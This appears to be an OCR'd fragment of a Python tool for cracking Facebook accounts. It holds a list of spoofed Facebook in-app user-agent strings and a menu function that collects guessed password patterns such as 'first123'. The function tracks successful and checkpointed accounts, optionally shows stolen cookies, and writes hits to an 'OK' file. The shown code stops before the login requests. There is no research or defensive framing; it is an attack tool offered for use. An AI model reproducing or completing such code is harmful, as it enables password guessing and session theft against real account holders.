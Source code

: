 Mozilla/5.0 (Linux; Android 10; EVE-LX9N Build/HUAWEIEVE-LX9N; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.93 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/370.0.0.14.108;]
Mozilla/5.0 (Linux; Android 12; 4188S Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/109.0.5414.118 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/393.0.0.18.92;]
Mozilla/5.0 (Linux; Android 11; Armor 12 5G Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/109.0.5414.85 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/393.0.0.18.92;]
Mozilla/5.0 (Linux; Android 12; 22041216C Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/109.0.5414.85 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/393.0.0.18.92;]
Mozilla/5.0 (Linux; Android 10; CDY-NX9B Build/HUAWEICDY-N29B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.93 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/391.0.0.0.302;]
Mozilla/5.0 (Linux; Android 10; STS570 Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/389.1.0.23.214;]
Mozilla/5.0 (Linux; Android 11; TECNO KG6p Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/109.0.5414.85 Mobile Safari/537.36 [FB_IAB/Orca-Android;FBAV/393.0.0.18.92;]

"""
####@-----FileM-----@####


def method():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o':      
        lp = input(f'[?] 1 password firstlast : ')
        if lp.isnumeric():
            ex = 'firstlast first123 last123'
            print(f'[EX]')
            for x in range(int(lp)):
                totalpass.append(input(f'{oo(x+1)}Password : '))
            pass
        else:
            print(f"{oo('!')}Numeric Only")
            exit()
    print(f'\n'+oo("1")+'Method 1 (NEW )\n'+oo("2")+'Method 2 (Old)')
    m=input(f"{oo('!')}Input : ") 
    print('\n'+oo("?")+'Do You Want To Show Cp Ids?(y/n)')
    cpok=input(f"{oo('!')}Input : ")
    print('\n'+oo("?")+'Do You Want To Show Cookies?(y/n)')
    c=input(f"{oo('!')}Input : ")
    apps='y'
    os.system("clear")
    print(logo) 
    print('\033[1;93m='*25)
    print(f'{oo("✓")}Total Ids : \033[1;92m'+str(len(accounts)))
    print(f"{oo('-')}Wait As You Can :)")
    print(f"{oo('✓')}/sdcardShezii😍-OK.txt")
    print('\033[1;93m='*25)
    print()
    